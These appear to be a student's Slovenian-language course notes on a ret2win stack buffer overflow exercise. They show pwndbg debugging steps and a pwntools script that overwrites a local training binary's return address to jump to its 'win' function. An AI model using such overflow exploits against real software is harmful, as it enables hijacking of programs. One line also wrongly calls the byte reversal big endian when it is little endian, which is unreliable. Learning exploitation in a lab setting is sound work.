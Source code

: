 - če povozimo return address lahko naredimo, da main kliče samega sebe (prejšnja vaja)
- za skoke nazaj rabimo return address in kje se je prejšnji stack začel (to je base pointer)
- za skoke rabimo vedeti return address in base pointer

- ret2win - skočiš na "win" function

```
pwndbg main
run // požene program, lahko samo `r`
b main // breakpoint na prvo vrstico main
r
```

- RBP = base pointer
- RSP = stack pointer
- na začetku kažeta na isto zadevo
- RIP = instruction pointer (program counter) - kaže na naslov naslednjega ukaza

```
b* main // se break-a po tem, ko se prvi ukaz zažene, ne pred tem tako kot pri `b`
```

```
ni // next instruction
```

- stack je na dnu pomnilnika, zato je naslov `0x7fffffff...`
- če vpišemo preveč znakov (A):
	- ![200](Images3/Pasted%20image%2020250303134932.png)
	- s tem smo povozili stack, na stacku je shranjeno zaporedje klicov funkcij - ko pridemo do return, bo poskusilo skočiti na `0x4141414141414141` (na naslov na vrhu stacka) (to so v bistvu ASCII 'A')

```
c // continue, da gre naprej do breakpointa, ki ga imamo v main
```

- `x/100gx $rsp` - dobimo memory map
- lahko rabimo alignment na nekaj bytov, zato naš char array ni res 20B, ampak je 32 ali 40 ...

```python
from pwn import *

# p = process('./main')

p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8

# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)

p.sendline(b"A"*20 + b"B"*8 + b"C"*8)

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- ![500](Images3/Pasted%20image%2020250303143510.png)

- da ugotovimo, kje v pomnilniku je `win` funkcija, moramo pogledati disassembly:
	- `disass main`
	- `disass win`

`0x0000000000401156`
`b"\x00\x00\x00\x00\x00\x40\x11\x56"`
- rabimo v bistvu ravno okoli obrniti, ker rabimo big endian (vodila na procesorju so tako postavljena na RAM, da se ravno zarotira)
- `b"\x56\x11\x40\x00\x00\x00\x00\x00"`

- pwntools funkcija `p64` - `p64(0x401156)`

```
from pwn import *

# p = process('./main')
p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8
# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)
p.sendline(b"A"*32 + b"B"*8 + p64(0x401156))

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- po koncu main, bo skočilo v `win` funkcijo in izpisalo "You win"
- 